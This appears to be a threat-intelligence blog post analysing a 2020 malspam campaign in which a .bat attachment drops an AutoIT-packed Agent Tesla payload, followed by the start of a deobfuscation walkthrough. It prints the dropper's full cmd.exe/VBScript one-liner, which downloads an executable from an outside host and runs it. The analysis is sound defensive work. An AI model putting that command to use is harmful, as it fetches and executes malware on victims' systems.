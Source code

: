 ```yaml
---
layout: post
title:  "[MALSPAM] Deep analysis of new Agent Tesla campaign with AutoIT dropper"
date:   2020-03-05
category: blog
---
```


The 29th of February 2020, thanks to our **Malware Intelligence Platform**, we found a new, strange, malspam campaign with, as target, the sales office of an important company.
The email was the following:
<figure>
<img src="https://i.ibb.co/K0D7mkh/email.jpg" alt="malspam" style="width:60%">
<figcaption>Figure 1: Malspam email</figcaption>
</figure>

The attachment of this malspam email wasn't the usual Microsoft Office dropper with macros,  but a simple .bat dropper that did nothing but download and run the real AutoIT malware from this domain: **hxxp://www.bitsandbytes.net.in/bobbbb.exe**
- Hash:**2f850dfe603b274604a1c2db112eb7b2**
- Name:**STATMENT OF ACCOUNT.bat**
- Code:
> cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>%TEMP%poc.vbs&@echo objXMLHTTP.open "GET","http://www.bitsandbytes.net.in/bobbbb.exe",false>>%TEMP%poc.vbs&@echo objXMLHTTP.send()>>%TEMP%poc.vbs&@echo If objXMLHTTP.Status=200 Then>>%TEMP%poc.vbs&@echo Set objADOStream=CreateObject("ADODB.Stream")>>%TEMP%poc.vbs&@echo objADOStream.Open>>%TEMP%poc.vbs&@echo objADOStream.Type=1 >>%TEMP%poc.vbs&@echo objADOStream.Write objXMLHTTP.ResponseBody>>%TEMP%poc.vbs&@echo objADOStream.Position=0 >>%TEMP%poc.vbs&@echo objADOStream.SaveToFile "%TEMP%\LDTVF.exe">>%TEMP%poc.vbs&@echo objADOStream.Close>>%TEMP%poc.vbs&@echo Set objADOStream=Nothing>>%TEMP%poc.vbs&@echo End if>>%TEMP%poc.vbs&@echo Set objXMLHTTP=Nothing>>%TEMP%poc.vbs&@echo Set objShell=CreateObject("WScript.Shell")>>%TEMP%poc.vbs&@echo objShell.Exec("%TEMP%\LDTVF.exe")>>%TEMP%poc.vbs&cscript.exe %TEMP%poc.vbs"

The downloaded **bobbbb.exe** is an AutoIT executable that contains an Agent Tesla payload.

## AutoIT Dropper Deobfuscation

AutoIT is a scripting language for Windows, really used to create malwares because of his high-level abstraction and his low rate of antivirus detection.
Fortunately, it's compilation process is easy to invert, with tools like [Exe2Aut](http://domoticx.com/autoit3-decompiler-exe2aut/), that returns an almost perfect AutoIT source code. However, the code is, really often, highly obfuscated, then difficult to understand.

As you can see in figure 3, all strings are encrypted by one or more levels of obfuscation. Fortunately all those decryption functions return a string, and since we can modify the source code, I modified those functions directly in the program to write to a file the result of the decryption. After that, with a simple python script a subsituted in the source code the decrypted strings to obtain something more readable. 

In Figure 2 you can see the main function of this executable:

<figure>
<a href="https://ibb.co/GM4HYkX"><img src="https://i.ibb.co/t2TLjcS/Screenshot-from-2020-03-04-14-34-39.png" alt="Main Function" style="width:100%"></a>
<figcaption>Figure 2: Main function deobfuscated</figcaption>
</figure>
